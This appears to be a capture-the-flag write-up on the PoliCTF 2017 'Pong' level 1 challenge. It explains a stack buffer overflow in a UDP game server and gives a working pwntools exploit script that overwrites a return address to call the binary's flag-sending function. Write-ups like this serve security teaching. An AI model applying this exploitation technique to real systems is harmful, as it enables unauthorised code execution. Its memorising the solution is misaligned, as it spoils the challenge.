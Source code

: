 ```yaml
---
layout: post
title:  "PoliCTF 2017 - Pong(lvl 1)"
date:   2017-07-09 21:10
categories: CTF
tags: [PoliCTF2017]
categories: [Pwn]
author: jbz
---
```


> So much pixels and fun!

> nc pong.chall.polictf.it 31337 or nc pong2.chall.polictf.it 31337

[Download](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong1.tgz?raw=true)


There was a stack bof vulnerability in function `gameUpdateData()`.

The user input delivered to the UDP server was copied to a stack variable without checking its size. This lead to a memory corruption. 

The given binary contains a function called `secret` which open the file `flag` sending its content back to the socket.

To get that content from the client side we first sent the payload requested in order to trigger the  function `setupListener`, then we sent the payload to exploit the memory corruption. 

In order to get the flag sent from the server, we need to send the triggering payload before the connection is closed...but hey wait that's is UDP, it's connectionless! 

Moreover, there was enought time to trigger the corruption since the first payload triggers a function which sends back to the client a lot of data before to exit so, we just need to send the first payload (to trigger `setupListener`) followed immediately by the second one (to trigger mem corr), without waiting for any reply in-between.

```
from pwn import *

secret = 0x4045d1

def start_game():
#	p = remote('localhost', 31337)
	p = remote('pong2.chall.polictf.it', 31337)
	p.sendline("Lv1")
	p.recvuntil("OK ")
	s = p.recvline()
	c_port = int(s.strip())
	return c_port

def play_pong(port):
	print "connecting to pong UDP server at %d" % port
#	p = remote('localhost', port, typ="udp")
	p = remote('pong2.chall.polictf.it', port, typ="udp")
	return p

def send_to_pong(p, pay, stop=None): 
	p.sendline(pay)
	if stop:
		print p.recv()

port = start_game()
p = play_pong(port)

pay = "-1|" + "2" * 21
pay += p64(secret)
send_to_pong(p, pay, False)

pay = "1" + "|" + "2" * 22 
pay += p64(secret)
send_to_pong(p, pay, True)
```


